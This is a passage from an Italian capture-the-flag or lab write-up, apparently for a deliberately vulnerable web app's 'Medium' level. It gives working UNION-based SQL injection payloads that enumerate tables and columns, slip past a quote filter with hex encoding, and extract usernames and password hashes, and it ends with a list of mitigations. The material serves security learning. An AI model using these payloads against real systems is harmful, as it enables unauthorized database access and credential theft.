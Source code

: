 Payload utilizzato:

```sql
1 UNION SELECT table_name, NULL FROM information_schema.tables #
```

Il server restituisce vari nomi di tabella, tra cui `users`.

---

### 4. Estrazione dei nomi delle colonne

Il payload testato inizialmente con:

```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
```

non funziona per via del filtro sul carattere `'`.  
La soluzione è usare il nome della tabella in esadecimale:

```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=0x7573657273 #
```

Risultato: sono visibili le colonne `user` e `password`.

---

### 5. Esfiltrazione dei dati

Payload finale:

```sql
1 UNION SELECT user, password FROM users #
```

Il server restituisce correttamente tutti gli username e password hashate.

> ⚠️ I dati estratti non vengono riportati per motivi etici.

---

## Considerazioni finali

Il livello Medium introduce dei filtri superficiali, ma rimane vulnerabile.  
Aggirando la sanitizzazione tramite encoding esadecimale e conoscenza delle strutture del DBMS, l'attacco SQLi risulta comunque efficace.

---

## Mitigazioni consigliate

Per prevenire la vulnerabilità SQL Injection, è fondamentale adottare le seguenti misure:

- Utilizzare **query parametrizzate** (prepared statements)  
- Evitare concatenazioni dirette di input utente  
- Validare e sanificare tutti i dati ricevuti dall’esterno  
- Limitare i privilegi dell’utente DB  
- Monitorare le richieste sospette lato server

---